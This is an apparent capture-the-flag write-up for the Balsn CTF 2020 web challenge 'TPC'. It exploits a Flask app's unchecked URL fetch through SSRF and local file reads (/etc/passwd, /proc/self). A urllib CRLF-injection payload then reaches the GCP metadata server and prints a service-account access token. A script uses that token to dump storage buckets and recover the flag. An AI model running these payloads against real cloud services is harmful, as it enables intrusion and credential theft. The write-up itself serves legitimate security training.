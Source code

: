 # TPC (web, 310p, 33 solves)

![challenge.png](./files/challenge.png)

## Description

The challenge implements a simple python application taking an URL as parameter. It allows us to perform SSRF and local file disclosure.

Reading a file on the server is as simple as:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///etc/passwd'
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

We first needed to be sure what the python code does. To find this out, we tried to find where it was located:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cmdline'
```

```
/usr/local/bin/python/ usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app --bind 0.0.0.0:8000 --workers 5 --worker-tmp-dir /dev/shm --worker-classgevent --access-logfile - --error-logfile
```

Now that we know the application name, we can simply dump the file using:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cwd/main-dc1e2f5f7a4f359bb5ce1317a.py'
```

```python
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```

It looks like there's nothing much going on with this python code. 


Looking at system files we noticed that the instance is under a GCP cluster:

```
# /etc/resolve.conf
nameserver 169.254.169.254
search asia-east1-b.c.balsn-ctf-2020-tpc.internal c.balsn-ctf-2020-tpc.internal google.internal
```

```
# /etc/hosts
127.0.0.1       localhost
::1             localhost

169.254.169.254 metadata.google.internal metadata
```

We can use this information to perform http request on the Google Internal API:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/'
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Unfortunatly, the Google API requires a special header to be placed in the HTTP request:

```
Metadata-Flavor: Google"
or
X-Google-Metadata-Request: True
```

To do this, we need to control the HTTP request sent by the python script. It cannot be done unless the http client used is vulnerable to a CRLF injection. 

```shell
# requirements.txt
# Nothing to see tho
Flask==1.1.2
requests==2.23.0
gevent==20.9.0
gunicorn==20.0.4
```

Using some google dorks, I found the following hackerone post:

```
site:hackerone.com urllib
```


[URLLib CRLF Injection](https://hackerone.com/reports/590020)

Let's try this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/hostname%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```
tpc-1.asia-east1-b.c.balsn-ctf-2020-tpc.internal
```

From now, we know the challenge will be about finding the flag as a volume or something. Let's dig in the google APIs.

We can obtain the google api token by using this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```json
{"access_token":"ya29.c.KpcB5Qf1Y_GQAIL2c0Zyb9gzjvR3y14PYiPegz97C0BZP8AoWcNjrrEHNf90WbfjEVVcCBC8w9e3JAClRY3cVA_7DCH6rfajwGNDMY5UYbuffUqCrtGYT6JJrx2lSlG00vm4auxuSpnRm8efQpuAiknPYBXT0CXbF4CH85axaVELJRXT7_X2isbn7eppLZvVDza2spDjPXSylw","expires_in":2877,"token_type":"Bearer"}
```

Let's export the token for future usage:

```shell
$ export TOKEN=$(curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'|jq -r '.access_token')
```

We can use it on the "external" GCP API:

[https://cloud.google.com/storage/docs/json_api/v1](https://cloud.google.com/storage/docs/json_api/v1)

```shell
curl -s "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=$TOKEN"
```

```json
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/
auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2655,
  "access_type": "online"
}
```

> The token has the `devstorage.read_only` privilege and that will help us dumping the disk.

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc&access_token=$TOKEN
```

```json
{
  "kind": "storage#buckets",
  "items": [
    {
      "kind": "storage#bucket",
      "selfLink": "https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "id": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "name": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "projectNumber": "909684563558",
      "metageneration": "1",
      "location": "ASIA",
      "storageClass": "STANDARD",
      "etag": "CAE=",
      "timeCreated": "2020-10-03T05:12:42.035Z",
      "updated": "2020-10-03T05:12:42.035Z",
      "iamConfiguration": {
        "bucketPolicyOnly": {
          "enabled": false
        },
        "uniformBucketLevelAccess": {
          "enabled": false
        }
      },
      "locationType": "multi-region"
    }
  ]
}
```

We can dump the objects id:

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token=$TOKEN"|jq -r '.items[].name'
```

```
containers/images/sha256:1c2e7c9e95b20a8dde6674890b722779c5a797d9d5968a9fa3a0ef89cd90f9b4
containers/images/sha256:28be5eecf71473105c76c5beb040ecf0a28ee2b515fd1756037756ddfd991e06
containers/images/sha256:33e113b16000d89397d3ec7fef9ba22cefbe8517cf2060c6077d723ecacf27f8
containers/images/sha256:343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad
[...]
```

We urlencoded all of these and stored it as a file to use it in a script:

```shell
dir="./_objects"
mkdir -p "$dir"
for objectId in $(cat /tmp/objects) ; do
    echo "Dumping $objectId"

    outputFile="${dir}/${objectId}.tar.gz"
    curl --output - -Ls "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o/$objectId?access_token=$TOKEN&alt=media" > "$outputFile"

    # List files from the downloaded archive object:
    tar --list --verbose --file="$outputFile"
done
```

This gave us the following objects/files:

```
Dumping containers%2Fimages%2Fsha256%3A343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad3
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/workdir/
-rwxr-xr-x 0/0               0 1970-01-01 01:00 opt/workdir/.wh..wh..opq
Dumping containers%2Fimages%2Fsha256%3A8101ae8fd2dd26ce8868cad0a19f49fd2c7fb0b0a8035b7628ad012589e60b2f
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:21 opt/workdir/
-rw-r--r-- 0/0             373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
Dumping containers%2Fimages%2Fsha256%3A82b1f60a85530dec16e7db3c4af65f3ea612f579dc25b0daa35d5d253183a537
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 1001/1001         0 2020-11-12 06:21 opt/workdir/
-rwxr-xr-x 1001/1001       225 2020-11-12 06:15 opt/workdir/docker-entrypoint-dc1e2f5f7a4f359bb5ce1317a.sh
-rw-r--r-- 1001/1001        54 2020-11-12 06:13 opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
-rw-r--r-- 1001/1001       373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
-rw-r--r-- 1001/1001        62 2020-10-03 07:04 opt/workdir/requirements.txt
```

We extract the associated object and obtain the flag:

[object-containing-flag.tar.gz](./files/object-containing-flag.tar.gz)

```shell
$ cat opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
BALSN{What_permissions_does_the_service_account_need}
```
